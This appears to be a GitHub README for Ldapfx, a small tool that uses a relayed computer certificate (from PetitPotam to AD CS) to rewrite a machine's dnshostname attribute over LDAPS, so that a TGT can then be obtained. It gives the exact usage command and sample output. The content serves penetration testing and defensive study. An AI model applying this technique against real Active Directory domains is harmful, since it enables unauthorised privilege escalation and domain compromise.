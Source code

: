 # Ldapfx

Small tool created due to some edge cases when trying to exploit the relay using PetitPotam to AD CS. 

When you successfuly retrieve a .pfx certificate if the **SAN within the X509** differs from the **dnshostname** attribute of your target you won't be able to retrieve a TGT and have the following error :
```
KDC_ERR_CLIENT_NAME_MISMATCH (ERR 75)
```
Here is an example of this edge case :
- FQDN according to the domain : **wks2.test.local**
- FQDN which is stored within the dnshostname attribute: **wks2.modifyme.test.local**

This is **NOT related to a child domain** but just a custom **dnshostname** value. It has to be noted that a **computer account can modify the dnshostname** attribute as long as the modification stick to the following value :
- \<computer name>.\<domain name>

Once you've modified the **dnshostname** attribute you'll have to request a **new certificate** and only then you'll be able to ask for a TGT.
# Usage 
```
LDAPfx.exe DC1:636 wks2_cert.pfx "CN=WKS2,CN=Computers,DC=test,DC=local" "wks2.test.local"
[*] Adding certificate to the LDAPConnection
[*] Requesting LDAPS using the certificate
[*] Current LDAP user : u:TEST\WKS2$
[*] Default naming context : DC=test,DC=local
[*] Current dnshostname attribute : wks2.modifyme.test.local
[*] Did modifying the attribute succeed ? : Success
[*] Current dnshostname attribute : wks2.test.local
```

Author : @Ottersec & @dav1dstr33t
